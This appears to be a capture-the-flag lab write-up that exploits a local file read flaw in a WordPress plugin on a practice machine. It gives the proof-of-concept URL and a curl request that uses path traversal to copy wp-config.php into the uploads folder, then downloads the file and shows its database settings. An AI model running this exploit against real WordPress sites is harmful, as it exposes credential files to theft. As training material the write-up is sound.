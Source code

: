 ## WordPress Plugin LFI Vuln

The following POC URL is provided in the _39646.py_ exploit.

```bash
POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]
```

This exploit is converting the file we indicate in [FILEPATH] and places at _wp-content/uploads_ with a random title.

Intially looking at _/wp-content/uploads_ we see it is empty.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/ | html2text
****** Index of /blogblog/wp-content/uploads ******
[[ICO]]       Name             Last_modified Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                 -  
===========================================================================
     Apache/2.4.18 (Ubuntu) Server at 192.168.218.148 Port 12380

```

Let's trigger the exploit by reading _wp-config.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k "https://192.168.218.148:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php"
https://192.168.218.148:12380/blogblog/?p=210

```

Checking _/wp-content/uploads/_ again we now see the JPEG with a random title.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/ | html2text****** Index of /blogblog/wp-content/uploads ******
[[ICO]]       Name             Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                    -  
[[IMG]]       1621300986.jpeg  2023-11-16 02:13 3.0K  
===========================================================================
     Apache/2.4.18 (Ubuntu) Server at 192.168.218.148 Port 12380

```

Download the JPEG and view contents

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ curl -k -s https://192.168.218.148:12380/blogblog/wp-content/uploads/1621300986.jpeg --output wp-con
fig.php

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/stapler]
└─$ cat wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

```